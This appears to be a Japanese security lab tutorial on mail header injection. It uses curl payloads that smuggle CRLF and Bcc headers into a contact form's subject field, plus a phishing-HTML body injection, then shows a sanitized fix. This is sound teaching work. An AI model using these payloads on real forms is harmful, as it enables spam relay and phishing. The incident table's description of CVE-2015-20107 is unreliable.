


# Mail Header Injection — メールヘッダーに改行コードを注入してスパムの踏み台にする

> Webアプリの「お問い合わせフォーム」などメール送信機能において、件名や送信者名に改行コード（`\r\n`）を注入することで、任意のメールヘッダー（Bcc等）や本文を追加し、スパムメールの送信やフィッシングに悪用できてしまう脆弱性を学びます。

---

## 対象ラボ

| 項目 | 内容 |
|------|------|
| **概要** | お問い合わせフォームの件名フィールドにCRLF（`\r\n`）を注入し、Bccヘッダーを追加することで、本来の宛先以外に任意のメールを送信できる |
| **攻撃例** | `お問い合わせ\r\nBcc: victim1@example.com, victim2@example.com` を件名に入力 |
| **技術スタック** | Hono API |
| **難易度** | ★★☆ 中級 |
| **前提知識** | メールの基本構造（ヘッダーとボディ）、HTTPリクエストの基本（POST）、CRLFインジェクションの概念 |

---

## この脆弱性を理解するための前提

### メールメッセージの構造

インターネットメール（RFC 5322）は、**ヘッダー部** と **ボディ部** の2つで構成される。ヘッダーとボディの境界は **空行（CRLF が2回連続: `\r\n\r\n`）** で区切られ、各ヘッダーフィールドは **CRLF（`\r\n`）** で区切られる。

```
From: admin@example.com\r\n
To: support@example.com\r\n
Subject: お問い合わせ\r\n
Content-Type: text/plain; charset=UTF-8\r\n
\r\n
お問い合わせ内容がここに入ります。
```

主要なヘッダーフィールドの役割:

| ヘッダー | 役割 |
|----------|------|
| `From` | 送信者のメールアドレス |
| `To` | 宛先のメールアドレス |
| `Cc` | カーボンコピー（他の受信者にも同じメールが届く。受信者全員にアドレスが見える） |
| `Bcc` | ブラインドカーボンコピー（他の受信者にもメールが届くが、アドレスは他の受信者から見えない） |
| `Subject` | 件名 |

この構造の重要なポイントは、**CRLF がヘッダーの区切り文字として機能している** ということ。つまり、ヘッダーの値の中に CRLF を挿入できれば、その後に続く文字列は新しいヘッダーフィールドとして解釈される。

### Webアプリケーションがメールを構築する流れ

お問い合わせフォームなどのWebアプリケーションは、ユーザーが入力した値（件名、名前、メールアドレス、本文等）をサーバー側で組み合わせてメールメッセージを構築し、SMTP サーバーに送信する。

```typescript
// 典型的なお問い合わせフォームのサーバー側処理
app.post('/api/contact', async (c) => {
  const { name, email, subject, body } = await c.req.json();

  // ユーザー入力からメールヘッダーを構築
  const headers = [
    `From: ${email}`,
    `To: support@example.com`,
    `Subject: ${subject}`,
    `Content-Type: text/plain; charset=UTF-8`,
  ].join('\r\n');

  const message = `${headers}\r\n\r\n${body}`;

  // SMTPサーバーに送信（またはログに記録）
  await sendMail(message);
});
```

### どこに脆弱性が生まれるのか

問題は、ユーザー入力（`subject`, `email`, `name` 等）を **CRLF を除去・検証せずにメールヘッダーに直接結合** していること。開発者はユーザーが「普通のテキスト」を入力することを前提にしているが、攻撃者はヘッダーフィールドの区切り文字である CRLF を入力に含める。

```typescript
// ⚠️ この部分が問題 — ユーザー入力をメールヘッダーにそのまま結合している
const subject = req.body.subject; // "お問い合わせ\r\nBcc: spam-target@example.com"

// subject に CRLF が含まれると、Subject ヘッダーの後に
// 新しい Bcc ヘッダーが追加されてしまう
const headers = `Subject: ${subject}\r\nTo: support@example.com`;
```

`subject` に `お問い合わせ\r\nBcc: spam-target@example.com` が入力されると、組み立てられるヘッダーは以下のようになる:

```
Subject: お問い合わせ\r\n
Bcc: spam-target@example.com\r\n
To: support@example.com\r\n
```

`\r\n` が Subject ヘッダーの値を終了させ、`Bcc: spam-target@example.com` が独立した正規のヘッダーフィールドとして解釈される。これにより攻撃者は任意の宛先にメールのコピーを送信できる。

---

## 攻撃の仕組み



### 攻撃のシナリオ

1. **攻撃者** がお問い合わせフォームの件名フィールドに CRLF を含む文字列を入力して送信する

   攻撃者は以下のようなリクエストを送信する。`\r\n` は URL エンコードでは `%0d%0a`、JSON では `\r\n` として表現される。

   ```bash
   curl -X POST http://localhost:3000/api/labs/mail-header-injection/vulnerable/send \
     -H "Content-Type: application/json" \
     -d '{
       "from": "attacker@example.com",
       "subject": "お問い合わせ\r\nBcc: victim1@example.com, victim2@example.com, victim3@example.com",
       "body": "これは普通のお問い合わせです"
     }'
   ```

   フォームは通常のテキスト入力であり、改行コードを含むデータの送信を拒否するクライアント側のバリデーションがなければ、この文字列はそのままサーバーに到達する。

2. **サーバー** がユーザー入力をそのままメールヘッダーに結合する

   サーバー側のコードは `subject` の値を検証・サニタイズせずにメールヘッダーに組み込む。結果として生成されるメールメッセージは以下のようになる:

   ```
   From: attacker@example.com\r\n
   To: support@example.com\r\n
   Subject: お問い合わせ\r\n
   Bcc: victim1@example.com, victim2@example.com, victim3@example.com\r\n
   Content-Type: text/plain; charset=UTF-8\r\n
   \r\n
   これは普通のお問い合わせです
   ```

   `\r\n` が Subject ヘッダーを終了させ、その直後の `Bcc:` が新しい独立したヘッダーフィールドとして SMTP サーバーに解釈される。

3. **SMTP サーバー** が Bcc ヘッダーに指定された全アドレスにメールを配信する

   SMTP サーバーは Bcc ヘッダーを正規のものとして処理し、`victim1@example.com`, `victim2@example.com`, `victim3@example.com` にもメールのコピーを送信する。Bcc のため、各受信者は他の Bcc 受信者の存在を知ることができない。

4. **被害者** がスパムやフィッシングメールを受信する

   被害者は `support@example.com` のドメインから送信された正規のメールを受け取る。送信元が正規のメールサーバーであるため、スパムフィルタをすり抜ける可能性が高い。攻撃者がボディも注入した場合（`\r\n\r\n` で空行を挟んで本文を上書き）、フィッシングリンクやマルウェアのダウンロードリンクを含むメールを正規のドメインから送信できる。

### さらに高度な攻撃: 本文の注入

CRLF を2回連続で注入（`\r\n\r\n`）すると、ヘッダー部を終了させてメールの本文を完全に制御できる:

```bash
curl -X POST http://localhost:3000/api/labs/mail-header-injection/vulnerable/send \
  -H "Content-Type: application/json" \
  -d '{
    "from": "attacker@example.com",
    "subject": "【重要】パスワード変更のお願い\r\nBcc: victim@example.com\r\nContent-Type: text/html\r\n\r\n<html><body><p>セキュリティ上の理由により、以下のリンクからパスワードを変更してください:</p><a href=\"https://evil.example.com/reset\">パスワード変更</a></body></html>\r\n\r\n無視してください: ",
    "body": "元のメール本文（無視される）"
  }'
```

この場合、生成されるメールメッセージは:

```
From: attacker@example.com\r\n
To: support@example.com\r\n
Subject: 【重要】パスワード変更のお願い\r\n
Bcc: victim@example.com\r\n
Content-Type: text/html\r\n
\r\n
<html><body><p>セキュリティ上の理由により...</p>...</body></html>
```

攻撃者は Content-Type を `text/html` に変更し、本文にフィッシングページの HTML を注入している。元の `Content-Type` や本文は、先に現れた注入部分によって上書きされる。

### なぜ成功するのか

| 条件 | 説明 |
|------|------|
| ヘッダー値の CRLF 未検証 | サーバーがユーザー入力に含まれる `\r\n` を除去・エスケープせずにメールヘッダーに直接結合している。CRLF がヘッダーの区切り文字として機能してしまう |
| メールプロトコルの構造的特性 | RFC 5322 ではヘッダーの区切りが CRLF に依存しており、ヘッダーとボディの境界も空行（CRLF×2）で定義される。この構造はインバンドシグナリングの典型例 |
| 手動でのメールヘッダー構築 | ライブラリの安全な API を使わず、文字列結合でメールメッセージを手動構築しているため、構造とデータの分離ができていない |

### 被害の範囲

- **機密性**: 注入した Bcc により、内部向けのメール内容（社内情報、顧客データ等）が攻撃者の指定したアドレスにコピーされる。From ヘッダーの偽装により正規の送信者になりすませる
- **完全性**: メール本文を攻撃者が完全に制御できるため、フィッシングリンクやマルウェアを正規ドメインのメールとして送信できる。組織の信頼性が毀損される
- **可用性**: 大量の Bcc アドレスを注入してスパムを送信すると、メールサーバーのリソースを消費する。さらに、スパム送信の踏み台として利用されると、組織のメールサーバーがブラックリストに登録され、正規のメール配信が不可能になる

---

## 対策



### 根本原因

ユーザー入力が **メールプロトコルの制御構造（ヘッダーの区切り）** として解釈される設計になっていることが根本原因。SQL インジェクションやコマンドインジェクションと同じパターンで、入力値が「データ」として扱われるべきところを、「メールヘッダーの構文」として処理してしまっている。CRLF はメールプロトコルにおいてヘッダーの境界を示す制御文字であり、これがユーザー入力に含まれると、攻撃者がメッセージの構造自体を操作できてしまう。

### 安全な実装

メールヘッダーに使用する全てのユーザー入力から、改行コード（`\r` および `\n`）を除去する。これにより、攻撃者が CRLF を注入してもヘッダーの境界として機能しなくなる。

さらに安全性を高めるには、メールメッセージの構築にライブラリの安全な API を使用する。ライブラリはヘッダーのエンコーディング（RFC 2047 の MIME エンコード等）やエスケープ処理を内部で適切に行うため、手動での文字列結合に比べて安全性が大幅に向上する。

```typescript
import { Hono } from 'hono';

const app = new Hono();

// ✅ 改行コードを除去する関数 — ヘッダーインジェクションを防止
function sanitizeHeaderValue(value: string): string {
  // \r と \n を除去することで、ヘッダーの区切りとして機能するCRLFを無害化
  // これにより注入された文字列はヘッダー値の一部として扱われ、
  // 新しいヘッダーフィールドとして解釈されない
  return value.replace(/[\r\n]/g, '');
}

// ✅ 入力値のバリデーション — そもそも不正な値を受け付けない
function validateEmailSubject(subject: string): boolean {
  // 件名に制御文字が含まれていないことを確認
  // \x00-\x1f は ASCII 制御文字の範囲（\t を除く）
  return !/[\x00-\x08\x0b\x0c\x0e-\x1f]/.test(subject);
}

app.post('/api/labs/mail-header-injection/secure/send', async (c) => {
  const { from, subject, body } = await c.req.json();

  // バリデーション: 制御文字を含む入力を拒否
  if (!validateEmailSubject(subject)) {
    return c.json({ error: '件名に無効な文字が含まれています' }, 400);
  }

  // サニタイズ: 全ヘッダー値から改行コードを除去
  const safeFrom = sanitizeHeaderValue(from);
  const safeSubject = sanitizeHeaderValue(subject);

  // メールヘッダーの構築（改行コードが除去されているため安全）
  const headers = [
    `From: ${safeFrom}`,
    `To: support@example.com`,
    `Subject: ${safeSubject}`,
    `Content-Type: text/plain; charset=UTF-8`,
  ].join('\r\n');

  const message = `${headers}\r\n\r\n${body}`;

  // メール送信をシミュレーション（ログに記録）
  console.log('[SECURE] 送信メール:\n', message);

  return c.json({
    success: true,
    message: 'メールを送信しました（安全版）',
    sanitizedSubject: safeSubject,
  });
});
```

`sanitizeHeaderValue()` が `\r` と `\n` を除去するため、攻撃者が `お問い合わせ\r\nBcc: victim@example.com` と入力しても、実際にヘッダーに設定される値は `お問い合わせBcc: victim@example.com` という1行の文字列になる。CRLF がないため、`Bcc:` は新しいヘッダーフィールドとして解釈されず、Subject の値の一部として扱われるだけとなる。

#### 脆弱 vs 安全: コード比較

```diff
  app.post('/send', async (c) => {
    const { from, subject, body } = await c.req.json();
-   // ユーザー入力をそのままヘッダーに結合（CRLFが通過する）
-   const headers = [
-     `From: ${from}`,
-     `To: support@example.com`,
-     `Subject: ${subject}`,
-   ].join('\r\n');
+   // 全ヘッダー値から改行コードを除去してからヘッダーに結合
+   const safeFrom = from.replace(/[\r\n]/g, '');
+   const safeSubject = subject.replace(/[\r\n]/g, '');
+   const headers = [
+     `From: ${safeFrom}`,
+     `To: support@example.com`,
+     `Subject: ${safeSubject}`,
+   ].join('\r\n');
```

脆弱なコードではユーザー入力がそのままヘッダー値になるため、`\r\n` でヘッダーの境界を操作できる。安全なコードでは改行コードを除去するため、注入された文字列は単一のヘッダー値の一部として扱われ、新しいヘッダーフィールドとして解釈されない。

### その他の防御策

| 対策 | 種類 | 説明 |
|------|------|------|
| CRLF の除去 | 根本対策 | ヘッダーに設定する全ての値から `\r` と `\n` を除去する。最も基本的で必須の対策 |
| メールライブラリの使用 | 根本対策 | nodemailer 等のライブラリの API を使用する。ライブラリはヘッダーのエスケープやエンコーディングを内部で処理するため、手動での文字列結合に比べて安全。ただし古いバージョンには脆弱性がある場合もあるため、最新版の使用が推奨 |
| 入力値のバリデーション | 多層防御 | 件名やメールアドレスのフォーマットを正規表現で検証し、制御文字を含む入力を拒否する。CRLF 除去の前段として不正な入力を早期に排除 |
| 送信レート制限 | 多層防御 | 同一IPからの送信回数を制限し、大量スパム送信を防止する。ヘッダーインジェクション自体は防げないが、被害の規模を限定できる |
| SPF / DKIM / DMARC | 検知 | メール認証の仕組みを導入し、なりすまし送信の検知・防止を行う。ヘッダーインジェクションの直接の対策ではないが、偽装メールの到達率を下げる |

---

## ハンズオン手順

### Step 1: 脆弱バージョンで攻撃を体験

**ゴール**: 件名フィールドに CRLF を注入し、Bcc ヘッダーが追加されることを確認する

1. 開発サーバーを起動する

   ```bash
   cd backend && pnpm dev
   ```

2. 正常なメール送信を試す

   ```bash
   curl -X POST http://localhost:3000/api/labs/mail-header-injection/vulnerable/send \
     -H "Content-Type: application/json" \
     -d '{"from": "user@example.com", "subject": "お問い合わせ", "body": "製品について質問があります"}'
   ```

   正常なレスポンスが返される。バックエンドのコンソールに出力されるメールログを確認し、ヘッダーが意図通りに構成されていることを確認する。

3. メールヘッダーインジェクションを試す — 件名に CRLF + Bcc を注入

   ```bash
   curl -X POST http://localhost:3000/api/labs/mail-header-injection/vulnerable/send \
     -H "Content-Type: application/json" \
     -d '{
       "from": "user@example.com",
       "subject": "お問い合わせ\r\nBcc: attacker@evil.com, victim@example.com",
       "body": "普通のお問い合わせです"
     }'
   ```

4. 結果を確認する

   - レスポンスの `generatedHeaders` を確認し、`Bcc: attacker@evil.com, victim@example.com` が独立したヘッダーとして追加されていることを確認する
   - バックエンドのコンソールログで、生成されたメールメッセージ全体を確認する
   - **この結果が意味すること**: 攻撃者が件名に CRLF を注入しただけで、任意のメールアドレスに Bcc でメールのコピーを送信できる状態。実際の SMTP サーバーに接続されていれば、スパムの踏み台として悪用される

5. さらに高度な攻撃を試す — 本文の注入

   ```bash
   curl -X POST http://localhost:3000/api/labs/mail-header-injection/vulnerable/send \
     -H "Content-Type: application/json" \
     -d '{
       "from": "admin@example.com",
       "subject": "【緊急】セキュリティ通知\r\nBcc: victim@example.com\r\nContent-Type: text/html\r\n\r\n<h1>アカウントが不正アクセスされました</h1><p><a href=\"https://evil.example.com\">今すぐ確認</a></p>",
       "body": "この本文は無視される"
     }'
   ```

   - ヘッダーだけでなく、メールの本文（ボディ）まで完全に制御されていることを確認する
   - Content-Type が `text/html` に変更され、フィッシング用の HTML が本文として設定されている

### Step 2: 安全バージョンで防御を確認

**ゴール**: 同じ攻撃が失敗することを確認する

1. 同じペイロードを安全なエンドポイントに送信する

   ```bash
   curl -X POST http://localhost:3000/api/labs/mail-header-injection/secure/send \
     -H "Content-Type: application/json" \
     -d '{
       "from": "user@example.com",
       "subject": "お問い合わせ\r\nBcc: attacker@evil.com, victim@example.com",
       "body": "普通のお問い合わせです"
     }'
   ```

2. 結果を確認する

   - `Bcc` ヘッダーが独立したヘッダーとして追加されていない
   - レスポンスの `sanitizedSubject` を確認し、改行コードが除去されて `お問い合わせBcc: attacker@evil.com, victim@example.com` という1行の文字列になっていることを確認する
   - バックエンドのコンソールログで、生成されたメールメッセージに不正なヘッダーが含まれていないことを確認する

3. コードの差分を確認する

   - `backend/src/labs/step02-injection/mail-header-injection.ts` の脆弱版と安全版を比較
   - **どの行が違いを生んでいるか** に注目: `.replace(/[\r\n]/g, '')` による改行コード除去

### 確認ポイント

以下を自分の言葉で説明できれば、このラボは完了です:

- [ ] メールヘッダーインジェクションが発生するための条件は何か（メールの構造と CRLF の役割）
- [ ] 攻撃者は何を入力し、サーバー内部でどうメールメッセージが構築され、結果として何が起きるか
- [ ] 根本原因はコード/設計のどこにあるか（なぜ CRLF がヘッダーの境界を操作できるのか）
- [ ] 安全な実装は「なぜ」この攻撃を無効化するのか（改行コード除去がメール構造をどう保護するか）

---

## 実装メモ

| 項目 | パス |
|------|------|
| 脆弱エンドポイント | `/api/labs/mail-header-injection/vulnerable/send` |
| 安全エンドポイント | `/api/labs/mail-header-injection/secure/send` |
| バックエンド | `backend/src/labs/step02-injection/mail-header-injection.ts` |
| フロントエンド | `frontend/src/labs/step02-injection/pages/MailHeaderInjection.tsx` |

- 実際の SMTP 送信は行わず、メールメッセージをコンソールログに出力してシミュレーションする
- 脆弱版ではユーザー入力をそのまま文字列結合でメールヘッダーに組み込む
- 安全版では全ヘッダー値から `\r` と `\n` を除去し、さらに入力値のバリデーションを行う
- レスポンスに生成されたヘッダーの内容を含め、学習者が注入結果を確認できるようにする

---

## 現実世界での事例

| 年 | インシデント | 概要 |
|----|-------------|------|
| 2007 | 多数のPHPアプリケーション | PHPの `mail()` 関数を使用したWebアプリケーションで、メールヘッダーインジェクションによるスパム送信が大量に報告された。`mail()` の追加ヘッダー引数に未検証のユーザー入力を渡すコードが広く使われていたことが原因。PHP 5.4.42 以降で `mail()` 関数自体に CRLF チェックが追加された |
| 2015 | Python smtplib (CVE-2015-20107) | Python の `email` モジュールでメールヘッダーインジェクションの脆弱性が報告された。ヘッダーフィールドに CRLF を含む値を設定できてしまい、任意のヘッダーを注入可能だった |
| 2020 | 複数のWordPressプラグイン | コンタクトフォーム系プラグインでメールヘッダーインジェクション脆弱性が発見された。件名や返信先フィールドの入力がサニタイズされておらず、スパムリレーに悪用された |

---

## 関連ラボ

| ラボ | 関連性 |
|------|--------|
| [CRLFインジェクション](../step06-server-side/crlf-injection.md) | 同じ CRLF 注入の手法だが、対象が HTTP レスポンスヘッダー。メールヘッダーインジェクションはメールプロトコルに対する CRLF 注入であり、攻撃の原理（改行コードが構造の区切りとして機能する）は共通 |
| [OSコマンドインジェクション](./command-injection.md) | 同じインジェクション系の脆弱性。ユーザー入力がプロトコルやシステムの制御構造として解釈されるという共通パターン。コマンドインジェクションではシェルのメタ文字、メールヘッダーインジェクションでは CRLF が制御文字として機能する |

---

## 参考資料

- [OWASP - Email Header Injection](https://owasp.org/www-community/attacks/Email_Header_Injection)
- [CWE-93: Improper Neutralization of CRLF Sequences ('CRLF Injection')](https://cwe.mitre.org/data/definitions/93.html)
